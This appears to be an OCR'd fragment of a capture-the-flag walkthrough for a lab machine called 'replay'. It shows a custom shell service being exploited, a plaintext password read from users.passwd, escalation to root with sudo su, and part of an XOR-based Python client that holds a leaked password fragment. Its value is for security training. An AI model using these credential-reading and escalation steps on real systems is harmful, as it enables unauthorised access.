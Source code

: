 CH3:PASS 

 -= Access Granted =- 

 Welcome Back Admin 
 Press Ctrl+C To Close Connection 
 Enter a Command: CC........H....S;....S$...._S
..S...S........
S.......S..ISH......
Hello World, you are currently running as:
bob

 Command Executed
quit

 =!= [INTRUDER DETECTION] YOU ARE SENDING UNAUTHORISED PACKETS TERMINATING CONNECTION... =!= 


exit



bob@replay:~/Documents/.ftp$ cat users.passwd
cat users.passwd
bob:b0bcat_1234567890:1100:1100::/ftp:/bin/false
bob@replay:~/Documents/.ftp$ sudo -l
sudo -l
[sudo] password for bob: b0bcat_1234567890

Matching Defaults entries for bob on replay:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on replay:
    (ALL : ALL) ALL
bob@replay:~/Documents/.ftp$ sudo su
sudo su
root@replay:/home/bob/Documents/.ftp# id
id
uid=0(root) gid=0(root) groups=0(root)




bob@replay:~/Documents$ cat client.py
cat client.py
import socket
import time
import base64
import os
import random
import string

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

notes="--=======NOTES=======-- +Buy new milk (the current one is chunky) +2nd half of password is: h0TAIRNXuQcDu9Lqsyul +Find a new job +Call mom =====[END]====="

def XOR(inputstr, key):
    output = []
    xor = 0
    for i in range(len(inputstr)):
        xor = ord(inputstr[i]) ^ ord(key)
        output.append(chr(xor))
    return ''.join(output)

